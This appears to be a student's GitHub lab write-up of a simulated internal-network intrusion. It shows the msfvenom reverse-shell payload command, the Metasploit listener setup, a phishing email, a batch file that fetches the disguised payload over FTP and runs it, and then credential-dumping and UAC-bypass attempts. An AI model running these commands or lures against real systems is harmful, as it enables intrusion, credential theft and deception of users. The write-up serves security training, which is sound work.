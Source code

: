 # Penetrating-an-Internal-Network


<h1>Phase 5</h1>


**<p style="font-size: 15px;">Step 1: Create a remote control payload.</p>**

I began this lab, as I have with many of the others, by elevating the Terminal window to use root privileges with the command "sudo su". Next, I went through the process of creating a new user, "adduser svcsupport". This new user account will be used as the credentials to download an exploit to the victim over FTP. Doing so will help to obfuscate, or hide, my identity if someone evaluates the malicious script. 

I then created a remote control payload with msfvenom, "msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 -f exe LHOST=203.0.113.66 LPORT=4444 -o /home/svcsupport/safetool.exe". Here is a breakdown of each part of the command, "-p" indicates the exploit to convert to shellcode, "--platform" sets the execution destination type (e.g., Windows), "-a" defines the platform architecture (e.g., x64), "-f" determines the output format (e.g., exe), "LHOST" sets the listening IP address for the receiving host, "LPORT" set the listening post number on the receiving host, and "-o" defines the output path and filename. 

Once the payload was created, I entered "ls -l /home/svcsupport" to confirm the existence of the exploit output file of safetool.exe. The file is displayed and is 7168 bytes in size. 

Next, I started the very secure FTP daemon with the command "service vsftpd start". Finally, I started the postgres with the command "service postgresql start". These services were previously downloaded to the lab and will be used to host the safetool.exe file, store the payload and deliver the exploit to the target system. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7f19a4b1-fcea-4695-9a44-f6f076cc5d7a)

**<p style="font-size: 15px;">Step 2: Setup the listener.</p>**

The listener must be set up to receive the inbound connection before the victim can be tricked into running the exploit payload. I began this phase by launching Metasploit utilizing the command "msfconsole". 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/776669b2-337c-4d01-8876-66622f3405e6)

Next, I changed the MSF prompt to a handler for reverse shell payloads with the command "use exploit/multi/handler". As you can see, the following line shows (Using configured payload generic/shel_reverse_tcp). To show the configuration details of the handler I input "show options". As currently configured the LPORT is already set to 4444, the default listening port for metasploit. Additionally, there is not LHOST set and the payload is still set to the generic/shell_reverse_tcp. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8291d92-cd56-40f7-b7ee-794163bd0e35)

Below, I used the commands "set payload windows/x64/meterpreter/reverse_tcp" and "set LHOST 203.0.113.66" to update the configurations to reflect the payload I will utilize and the host. The x64 architecture version is used because the MS10 system is a 64-bit operating system. More relaible results occur when the architecture of the exploit and the OS match. 

I re-entered the "show options" command to reveal the updates I made. Once the correct configuration was input, I initiated the MSFConsole as the listener by entering "run". The MSFConsole is now listening on the host 203.0.113.66 on port 4444 for any connections.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc92f829-fd31-40ea-b41c-9d433a6a10aa)

**<p style="font-size: 15px;">Step 3: Socially engineer the victim.</p>**

To save time, this lab assumes that I have already crafted and sent a social engineering message to jaime@structureality.com with a batch file attachment, using the Social Engineering Toolkit (SET) as demonstrated in a previous lab. Later on I will create the batch file. 

In this step, I will operate as Jaime, the victim, who has been fooled by a social engineering email. The email had the following statement:

Dear Customer,

It has come to our attention that your accounts are outdated and need additional configuration to continue providing optimal services. Here is a tool that will automate the process of improving your configuration so you can continue to enjoy the full benefits of our services. 

Please run the attached file at your earliest convenience.

Note: The operation of the update may take considerable time. Minimize the Command Prompt window and continue using your system normally.  

Sincerely,
The Support Department 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7bf68f95-ffd8-459b-bd48-98c878ab8ef8)

To create the batch file, I opened the command prompt and entered "notepad c:\Users\jaime\Downloads\trythis.bat". This command opened Notepad and created a new file in the specified directory.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/735bbd9d-b7c4-4e4f-9556-e571d16902fa)

Notepad pops up, and I am asked if I would like to create the new file. I select, Yes.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/c15b5d52-9417-4c60-b72d-b8bc93f2a1fd)

I then typed the following lines of code into Notepad:

"C:\Program Files (x86)\WinSCP\winscp" /ini=nul /command "open ftp://svcsupport:Pa$$w0rd@203.0.113.66/ -hostkey=open" "get safetool.exe %userprofile%\Downloads\" "exit"

"%userprofile%\Downloads\safetool.exe"

These commands facilitate the download and execution of the exploit file on the victim's system. The strategic use of a basic batch file is effective in circumventing malware scanners that may otherwise detect and remove the exploit from an email. I saved the notepad and exited.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/44a81139-5023-4440-aacb-15c752b6a1fe)

I then opened the File Explorer, selected downloads and double clicked on the trythis file to download the batch file. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7e793e40-644a-4982-8ca9-2a57a5981999)

Downloading the batch file caused the below command prompt to open, displaying the batch file's operations. As the email instructed, I minimized the window and continued my work day. The victim has been compromised and a remote control session has been established with the listener.  

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8b53073-7666-4ce2-afcc-84719bd5b36b)

I returned to the Kali Terminal Window to reveal the session opened between the attack system and Jaime's system.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/3e7ce2ef-4d3f-43ae-8664-30071b9b8dc4)

**<p style="font-size: 15px;">Step 4: Take advantage of the exploited victim.</p>**

In the terminal I entered "sysinfo" to view the details of Jaime's compromised system. Here we can see the computer name, MS10, Operating System, Windows 2016, Archetiecture, X64 and more. Next, I entered "getuid" to view the user account that created the remote sessions, Jaime.

I then tried a command to see if I currently had enough privileges to steal password hashes. This commands was "hashdump". As you can see the error *priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect* appears next indicating the command was not successful. I needed to escalate my privileges within the system to gain access to the passwords and entered "getsystem" to attempt a privilege escalation to SYSTEM privileges. This also resulted in a failure, several lines appear to denote what was attempted and failed. 

Due to these failures, I needed to perform an additional exploit against the system to gain additional capabilities. First, I needed to leave the connected session, but keep it preserved so that I could return later. To do this I entered the command "background".

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/37cf91b5-5adb-4ae0-a427-c2af5a0783bc)

I entered, "use exploit/windows/local/bypassuac_silentcleanup" to utilize an exploit module used to bypass User Access Control on Windows Systems. The *local* path element indicates this exploit must be run from the victim's local system instead of remotely or externally exploited.

"info" was entered next to display the information of the current exploit.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/091b0a44-cf32-4b50-a513-c98ef0322f37)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/50cb209c-8fe3-47f9-9a40-aac8d3c066b8)

Next, I entered "show options" to check the port, payload option and current session. The payload option is missing the x64 architecture, the port is set to 4444, and the session is not set. First I set the session to 1 to match the existing remote connection session, and then changed the LPORT to 4443. This is done to avoid any conflict in attempting multiple connections on the same port. Finally, I set the payload to include the x64 architecture with the command "set payload windows/x64/meterpreter/reverse_tcp". 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/2b2eca48-9dcb-43ed-a626-fd7e6f0dac6d)

To ensure the configuration was correct, I entered "show option" and confirmed the intended changes.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/f36ea8ca-fe63-44d6-80a8-644b278b9e51)

I then ran the exploit.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/78074d05-e177-4390-93f0-4740ae567606)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/9791e984-f45c-467a-b426-0f82afda102f)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc638e30-4482-4326-8b09-dda42f94c4ad)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7a08a906-5ba2-4ebe-97d6-da5abc5b8732)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/8db7738a-717f-479a-8b39-eb0f1aba1d90)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/ed720de7-11ac-4953-9b90-672bcc506bac)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/ca7101f7-04b9-42e0-bc49-1d75240ed48f)







